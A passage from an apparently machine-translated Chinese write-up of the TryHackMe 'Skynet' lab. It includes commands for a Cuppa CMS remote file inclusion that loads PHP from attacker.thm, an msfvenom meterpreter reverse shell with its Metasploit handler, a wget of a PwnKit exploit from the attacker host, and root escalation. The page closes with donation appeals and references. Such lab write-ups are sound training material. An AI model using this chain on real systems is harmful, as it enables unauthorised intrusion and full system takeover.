  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 05:05:14 20199204224 blocks of size 1024\. 5831504 blocks available
**smb: \> get Improving Deep Neural Networks.pdf**
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Improving
**smb: \> get "Improving Deep Neural Networks.pdf"**
getting file \Improving Deep Neural Networks.pdf of size 5743095 as Improving Deep Neural Networks.pdf (528.4 KiloBytes/sec) (average 528.4 KiloBytes/sec)[... snip ...]**smb: \>**
```

然后，我开始下载 notes 目录。在列出其中的文件数量后，我需要找到一种方法来加快这个过程。我是通过递归和[“弗兰克·托马斯”和“伽罗华”(2014)](https://superuser.com/a/856640) 建议的稍微修改的技术做到这一点的:

```
**smb: \notes\> recurse ON**
**smb: \notes\> mget ***
Get file 3.01 Search.md? **Y**
getting file \notes\3.01 Search.md of size 65601 as 3.01 Search.md (103.5 KiloBytes/sec) (average 1606.4 KiloBytes/sec)
Get file 4.01 Agent-Based Models.md? **Y**
getting file \notes\4.01 Agent-Based Models.md of size 5683 as 4.01 Agent-Based Models.md (8.1 KiloBytes/sec) (average 1568.6 KiloBytes/sec)[... snip ...]Get file 3.04 Filtering.md? **Y**
getting file \notes\3.04 Filtering.md of size 13360 as 3.04 Filtering.md (14.7 KiloBytes/sec) (average 887.1 KiloBytes/sec)
Get file 1.00 Foundations.md? **Y**
getting file \notes\1.00 Foundations.md of size 22 as 1.00 Foundations.md (0.0 KiloBytes/sec) (average 879.0 KiloBytes/sec)
**smb: \notes\>**
```

我忘了删除带有`prompt OFF`的提示——尽管希望下次我会记得这么做😉

大多数下载的文件看起来像数据科学相关的文档。但是，有一个名为`important.txt`的文件透露了一个非常有趣的信息:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ cat important.txt**1\. Add features to beta CMS /45kra24zxs28v3yd
2\. Work on T-800 Model 101 blueprints
3\. Spend more time with my wife  <-- lol
```

web 服务器上好像有个子目录叫`/45kra24zxs28v3yd`。我导航到它，确实有一些东西在那个子目录上运行(图 13):


图 13

然后我查看了网页上的 HTML 源代码，看看是否有什么有趣的链接或评论:

```
<html>
<head>
<style>
body {
  color: white;
}
</style>
</head>
<body bgcolor="black">
<center><br />

<h2>Miles Dyson Personal Page</h2><p>Dr. Miles Bennett Dyson was the original inventor of the neural-net processor which would lead to the development of Skynet,<br /> a computer A.I. intended to control electronically linked weapons and defend the United States.</p>
</center>
</body>
</html>
```

可悲的是，HTML 源代码只有要在浏览器中呈现的内容的标记。我的下一个计划是对子目录运行 *gobuster* 工具:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ gobuster dir -u http://skynet.thm/45kra24zxs28v3yd -w ./wordlist.txt -x php,php5,htm,html -t 45**
===============================================================
Gobuster v3.1.0
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@firefart](http://twitter.com/firefart))
===============================================================
[+] Url:                     http://skynet.thm/45kra24zxs28v3yd
[+] Method:                  GET
[+] Threads:                 45
[+] Wordlist:                ./wordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,php5,htm,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 418]
/administrator        (Status: 301) [Size: 333] [--> http://skynet.thm/45kra24zxs28v3yd/administrator/]
Progress: 236520 / 1038220 (22.78%)[... snip ...]

===============================================================
Finished
===============================================================

**┌──(dna㉿deniers)-[~/skynet]
└─$**
```

这个子目录中透露了一个有趣的`/administrator`子目录。图 14 显示了查看后的结果:



图 14

它运行的是[Cuppa CMS(n . d .)](https://www.cuppacms.com/)——根据其名称猜测，这是一个内容管理系统。粗略的研究表明，这款软件容易受到由[“CWH 地下”(2013)](https://www.exploit-db.com/exploits/25971) 设计的*远程文件包含*漏洞的攻击。远程文件包含将允许我在托管 CMS 软件的以下子目录中注入一个 PHP 脚本:

```
/alerts/alertConfigField.php?urlConfig=
```

具体来说，`urlConfig`是一个易受攻击的参数，我可以通过它注入恶意的 PHP 脚本。为了测试这个假设，我编写了一个简单的 PHP 脚本，将“Hello World”打印到浏览器中:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ cat test.php**
<?php
echo "Hello World!";
?>
```

然后我将运行一个简单的 Python 驱动的 HTTP 服务器，使用它的`http.server`模块( [Python 3.10.8 文档，n.d.](https://docs.python.org/3/library/http.server.html) ):

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ python3 -m http.server 8000**
Serving HTTP on 0.0.0.0 port 8000 ([http://0.0.0.0:8000/](http://0.0.0.0:8000/)) ...
skynet.thm - - [redacted] "GET /test.php HTTP/1.0" 200 -
```

现在，我将在我的网络浏览器上向以下 URL 发出一个`GET`请求:

```
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://attacker.thm:8000/test.php
```

图 15 描述了`GET`请求的结果:



图 15

这表明，至少在我的特定情况下，我可以在目标系统上执行 PHP 代码。我将使用`msfvenom`生成一个 PHP 脚本来启动一个反向的 meter preter shell([InfoSec Matter，n.d.-b](https://www.infosecmatter.com/metasploit-module-library/?mm=payload/php/meterpreter/reverse_tcp) ):

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker.thm LPORT=4444 -f raw -o reverse.php**
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
Saved as: reverse.php
```

我需要对 PHP 脚本做一个小的修改来使它执行，即从脚本中删除前两个字符(`/*`)(以粗体突出显示):

```
**/***<?php /**/ error_reporting(0); $ip = 'attacker.thm'; $port = 4444; if (($f = 'stream_ [... snip ...]
```

删除此内容后，我将配置 Metasploit 来接收反向 shell:

```
**┌──(dna㉿deniers)-[~]
└─$ sudo msfconsole      **          
[sudo] password for dna:[... snip ...]**msf6 > use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
**msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp**
PAYLOAD => php/meterpreter/reverse_tcp
**msf6 exploit(multi/handler) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/handler) > set LPORT 4444**
LPORT => 4444
**msf6 exploit(multi/handler) > exploit**[*] Started reverse TCP handler on attacker.thm:4444
```

现在我需要做的就是向下面的地址发送一个 GET 请求来获得反向 shell:

```
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://attacker.thm:8000/reverse.php
```

Metasploit 得到了相反的 shell:

```
[*] Started reverse TCP handler on attacker.thm:4444 
[*] Sending stage (39860 bytes) to skynet.thm
[*] Meterpreter session 1 opened (attacker.thm:4444 -> skynet.thm:54526 ) at [redacted] -0400**meterpreter >**
```

我发现这是一个 Linux 系统。现在可以转储标志了:

```
**meterpreter > shell**
Process 2003 created.
Channel 1 created.
**$ find / -name *user.txt* -type f -print 2>/dev/null; echo "Done!"**
/home/milesdyson/user.txt
Done!
**$ cat /home/milesdyson/user.txt**
[redacted]
```

我现在可以进行权限升级了。

## 利用后:权限提升

我将使用*LinEnum*([“rebootser”，n.d.](https://github.com/rebootuser/LinEnum) )和 *linPEAS* ( [Polop，n.d.](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) )找到一个漏洞向量，它将允许我获得系统的根权限。将它们上传到目标机器后，我运行它们并分析它们的输出。linPEAS 给出了一些有趣的输出:

```
[... snip ...][+] [CVE-2021-4034] PwnKitDetails: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main[... snip ...]
```

我对 *PwnKit* ( [Berardi，n.d.](https://github.com/berdav/CVE-2021-4034/) )有经验，所以决定尝试利用这个漏洞。我把它下载到了目标系统上，并获得了系统的超级用户权限:

```
**$ wget http://attacker.thm:8000/pwnkit.zip**
--[redacted]--  http://attacker.thm:8000/pwnkit.zip
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: 'pwnkit.zip'0K ......                                                100% 2.42M=0.003s[redacted] (2.42 MB/s) - 'pwnkit.zip' saved [6457/6457]**$ unzip pwnkit.zip**
Archive:  pwnkit.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
**$ cd CVE-2021-4034-main/**
**$ pwd**
/var/www/html/CVE-2021-4034-main
**$ make**
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
**$ id**
uid=33(www-data) gid=33(www-data) groups=33(www-data)
**$ ls**
GCONV_PATH=.
LICENSE
Makefile
README.md
cve-2021-4034
cve-2021-4034.c
cve-2021-4034.sh
dry-run
gconv-modules
pwnkit.c
pwnkit.so
**$ ./cve-2021-4034**
**# id**
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

我现在可以得到根标志了:

```
**# cd /root**
**# ls**
root.txt
**# cat root.txt**
[redacted]
```

阿洛拉。

# 结论

这个实验室显示出比预期的更难，既乏味又费智力——至少对我来说是这样！当涉及到侦察时，它真的“突破了界限”:进攻型安全工程师被期望通过每一个角落和缝隙进行检查，并吸收任何信息以获得对系统的进一步访问。

甚至像电子邮件线程和密码重复使用这样的小事也可以帮助攻击者获得对系统的更多访问权限。过去的安全漏洞证明了这一点 HBGary 黑客事件就是一个非常臭名昭著的例子( [Ars Staff，2011](https://arstechnica.com/tech-policy/2011/02/anonymous-speaks-the-inside-story-of-the-hbgary-hack/) )。

此外，就像一部好的戏剧或喜剧一样，事情并没有像预期的那样发展。我原以为我会利用 SquirrelMail web 应用程序上的一个 bug 来获得一个反向 shell，但我最终还是阅读了“Miles Dyson 的”邮件，以获得更多关于利用目标系统的信息。所有黑客或安全工程师都应该实践将较小的漏洞链接起来以实现目标(在我的例子中是一个反向 shell)。HBGary 黑客再次证明了这一策略的有效性。

## 插头

Mira Lazine ( [Twitter](https://twitter.com/MiraLazine) ， [Medium](https://medium.com/@MiraLazine) )是一位优秀的年轻女性，她和她的同事需要帮助解决他们的财务状况。我呼吁读者尽可能向他们捐款:

*   米拉拉齐奥:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)
*   《性别贪婪》:[https://moneyyy.me/$gendergreed](https://moneyyy.me/$gendergreed)
*   https://cash.app/$corrigantol 的科里甘·托尔伯特
*   " mem who ":[https://moneyyy.me/$memwho](https://moneyyy.me/$memwho)
*   舒适的安东内尔:[https://cash.app/$CozyOdonell](https://cash.app/$CozyOdonell)
*   詹姆斯·爱默生:https://cash.app/$octopuslaws8

此外，LGBTQ+群体正受到来自江湖骗子的攻击，如和 [libsoftiktok](https://www.washingtonpost.com/technology/2022/04/19/libs-of-tiktok-right-wing-media/) 这两个人的工作导致了对变性、同性恋和性别歧视的立法。我敦促读者支持或捐赠给以下组织，以对抗他们的错误信息:

*   美国公民自由联盟*:[https://www.aclu.org/](https://www.aclu.org/)*
*   *人权运动*:[https://www.hrc.org/](https://www.hrc.org/)**

# **尾注**

1.  **在这种情况下，*事件*被定义为“运行软件识别的一些动作、事件或‘外部刺激’，如击键或鼠标点击，从而改变其行为”，转述自 [Lane (2018)](https://www.digitalocean.com/community/tutorials/nodejs-event-driven-programming) 。**
2.  **我仔细检查了官方报道( [Spring，2019](https://tryhackme.com/resources/blog/skynet-writeup) )，看看我是否得到了正确的结果，或者需要使用不同的词汇表。我得到了和 Spring 几乎完全一样的结果；我所能做的就是保证，我尽了最大努力，不到必要的时候不会去看文章的其余部分。**
3.  **我不完全确定这个阶段的操作系统或内核版本是什么。**

# **参考**

**“0xshroudri”(未注明)。*用户名 _ 生成器. py* 。GitHub 库:[https://github.com/shroudri/username_generator](https://github.com/shroudri/username_generator)**

**农业研究协会工作人员(2011 年)。匿名发言:HBGary 黑客事件的内幕。Ars 技术公司。2022 年 10 月 25 日检索自:[https://ars technica . com/tech-policy/2011/02/anonymous-speaks-the-inside-story-of-the-HB Gary-hack/](https://arstechnica.com/tech-policy/2011/02/anonymous-speaks-the-inside-story-of-the-hbgary-hack/)**

**贝拉尔迪博士。CVE-2021–4034。GitHub 仓库。2022 年 10 月 25 日检索自:【https://github.com/berdav/CVE-2021-4034/ **

**打嗝组曲(未注明)。*应用安全测试软件*。PortSwigger。2022 年 9 月 30 日检索自:[https://portswigger.net/burp](https://portswigger.net/burp)**

**Cuppa CMS(未注明)。2022 年 10 月 24 日检索自:[https://www.cuppacms.com/](https://www.cuppacms.com/)**

**CVE 详情(未注明)。 *SquirrelMail:安全漏洞*。2022 年 9 月 30 日检索自:[https://www . CVE details . com/vulnerability-list/vendor _ id-803/squirrel mail . html](https://www.cvedetails.com/vulnerability-list/vendor_id-803/Squirrelmail.html)**

**《CWH 地铁》(2013)。*Cuppa CMS—'/alert config field . PHP '本地/远程文件包含。利用数据库*。2022 年 10 月 24 日检索自:[https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971)**

**菲尔丁和雷施克(2014 年)。*超文本传输协议(HTTP/1.1):语义和内容*【RFC 7231】。互联网工程任务组。2022 年 9 月 30 日检索自:[https://datatracker.ietf.org/doc/html/rfc7231](https://datatracker.ietf.org/doc/html/rfc7231)**

**《弗兰克·托马斯》和《伽罗华》(2014)。如何使用 smbclient 递归下载目录？StackOverflow。2022 年 10 月 16 日检索自:[https://superuser.com/a/856640](https://superuser.com/a/856640)**

**HowStuffWorks(未注明)。*如何用 5 个步骤画出一幅城市风景*。2022 年 10 月 25 日检索自:[https://life style . how stuff works . com/crafts/drawing/how-to-draw-a-city scape . htm](https://lifestyle.howstuffworks.com/crafts/drawing/how-to-draw-a-cityscape.htm)**

**信息安全事务(未注明)。 *SMB 登录检查扫描器— Metasploit* 。2022 年 10 月 15 日检索自:[https://www.infosecmatter.com/metasploit-module-library/?mm =辅助/扫描仪/SMB/SMB _ 登录](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/smb/smb_login)**

**信息安全事务(未注明)。 *PHP Meterpreter，PHP 反向 TCP Stager — Metasploit* 。2022 年 10 月 25 日检索自:【https://www.infosecmatter.com/metasploit-module-library/? mm = payload/PHP/meter preter/reverse _ TCP**

**Kali Linux 工具(未注明)。 *smbmap* 。2022 年 9 月 30 日检索自:[https://www.kali.org/tools/smbmap/](https://www.kali.org/tools/smbmap/)**

**莱恩河(2018)。*node . js 中的事件驱动编程*。数字海洋。2018 . 9 . 30 检索自:[https://www . digital ocean . com/community/tutorials/nodejs-event-driven-programming](https://www.digitalocean.com/community/tutorials/nodejs-event-driven-programming)**

**Mehlmauer 等人(未注明)。*OJ/gobuster:Go 中写的目录/文件、DNS 和 VHost 破坏工具*。GitHub 仓库。2022 年 9 月 30 日检索自:[https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)**

**Metasploit(未注明)。*渗透测试软件，笔测安全*。2022 年 10 月 15 日检索自:[https://www.metasploit.com/](https://www.metasploit.com/)**

**nmap(未标明)。Nmap:网络映射器——免费的安全扫描器。2022 年 9 月 3 日检索自:[https://nmap.org/](https://nmap.org/)**

**波特斯威格(未标明)。*打嗝入侵者攻击类型*。2022 年 9 月 30 日检索自:[https://ports wigger . net/burp/documentation/desktop/tools/intrusor/attack-types](https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types)**

**波洛普角(未标明)。 *LinPEAS - Linux 权限提升牛逼脚本。GitHub 库*。2022 年 10 月 25 日检索:[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**

**Python 3.10.8 文档(未注明)。 *http.server — HTTP 服务器*。2022 年 10 月 24 日检索自:[https://docs.python.org/3/library/http.server.html](https://docs.python.org/3/library/http.server.html)**

**快速表格(未注明)。*二进制到文本转换器*。2022 年 10 月 15 日检索自:[https://www . rapid tables . com/convert/number/binary-to-ascii . html](https://www.rapidtables.com/convert/number/binary-to-ascii.html)**

**SMB 客户端(未标明)。2022 年 9 月 30 日检索自:[https://www . samba . org/samba/docs/current/man-html/SMB client . 1 . html](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)**

**春天，B. (2019)。*天网——记起*。TryHackMe。2022 年 9 月 30 日检索自:[https://tryhackme.com/resources/blog/skynet-writeup](https://tryhackme.com/resources/blog/skynet-writeup)**

**松鼠邮件(未注明日期)。*坚果网邮*。2022 年 9 月 30 日检索自:[https://squirrelmail.org/](https://squirrelmail.org/)**

**《tryhackme》(2019)。*天网:易受攻击的终结者主题 Linux 机器*。TryHackMe。2022 年 8 月 9 日检索自:[https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)**

**“范·豪泽”(未注明)。 *thc-hydra* 。GitHub 仓库。2022 年 9 月 30 日检索自:[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)**

**墙纸耀斑(未标明)。*高清壁纸:女子骑摩托车插画*。2022 年 10 月 25 日检索自:[https://www . wallpaperflare . com/woman-riding-motorcycle-illustration-fate-series-anime-anime-girls-wallpaper-pt DSP](https://www.wallpaperflare.com/woman-riding-motorcycle-illustration-fate-series-anime-anime-girls-wallpaper-ptdsp)**

## **来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！**